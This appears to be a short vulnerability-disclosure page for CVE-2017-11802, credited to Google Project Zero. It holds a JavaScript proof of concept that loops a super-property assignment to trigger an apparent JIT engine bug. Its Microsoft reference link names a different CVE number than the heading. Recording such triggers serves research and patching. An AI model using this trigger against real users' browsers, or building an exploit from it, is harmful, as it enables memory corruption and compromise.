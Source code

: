 # CVE-2017-11802

- Report: Aug 2017
- Fix: Oct 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
class MyClass {
    constructor() {
        this.arr = [1, 2, 3];
    }

    f() {
        super.arr = [1];
        this.x;
    }
}

let c = new MyClass();
for (let i = 0; i < 0x10000; i++) {
    c.f();
}
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11799)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1333)
